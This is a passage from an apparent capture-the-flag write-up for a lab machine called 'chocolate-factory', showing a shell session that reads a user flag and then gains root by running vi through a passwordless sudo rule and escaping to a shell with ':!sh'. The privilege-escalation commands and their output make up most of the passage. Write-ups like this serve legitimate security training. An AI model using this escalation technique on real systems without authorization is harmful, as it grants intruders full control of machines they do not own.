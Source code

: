 ````commandline
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$ id
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
charlie@chocolate-factory:/$ cat /home/charlie/user.txt 
flag{cd*****42371b34e4826e4838*****2e}
````

I'm a bit surprised that the key is been at that location and now have output some data. While it did not want to do that on that web interface. Mr. Wonka played with us!

## Privilege Escalation

Now need to escalate our privileges. First look and hit it!

```commandline
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

So, this is a matter to run `vi` as `sudo` user, and then once the `vi` editor loaded, entering `:!sh` to spawn a shell, and we are `root`!

````commandline
charlie@chocolate-factory:/$ sudo /usr/bin/vi

# whoami
root
# cat /root/root.txt
cat: /root/root.txt: No such file or directory
# ls /root/
root.py
# cat root.py
cat: root.py: No such file or directory
# cat /root/root.py
````
